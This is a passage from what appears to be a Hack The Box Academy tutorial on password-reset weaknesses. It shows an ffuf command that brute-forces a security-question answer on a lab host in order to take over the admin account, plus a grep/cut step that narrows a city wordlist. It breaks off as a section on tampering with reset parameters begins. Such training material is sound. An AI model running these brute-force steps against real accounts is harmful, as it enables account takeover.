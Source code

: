    

![](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_2.png)

As an example, we will target the user `admin`. After specifying the username, we must answer the user's security question. The corresponding request looks like this:

![image](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_3.png)

We can set up the corresponding `ffuf` command from this request to brute-force the answer. Keep in mind that we need to specify our session cookie to associate our request with the username `admin` we specified in the previous step:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

After obtaining the security response, we can reset the admin user's password and entirely take over the account:

   

![](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_4.png)

We could narrow down the cities if we had additional information on our target to reduce the time required for our brute-force attack on the security question. For instance, if we knew that our target user was from Germany, we could create a wordlist containing only German cities, reducing the number to about a thousand cities:

```shell-session
smoothment@htb[/htb]$ cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt

smoothment@htb[/htb]$ wc -l german_cities.txt 

1117 german_cities.txt
```

---

## Manipulating the Reset Request

Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.

For instance, consider the following password reset flow, which is similar to the one discussed above. First, we specify the username:

   

![](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_5.png)
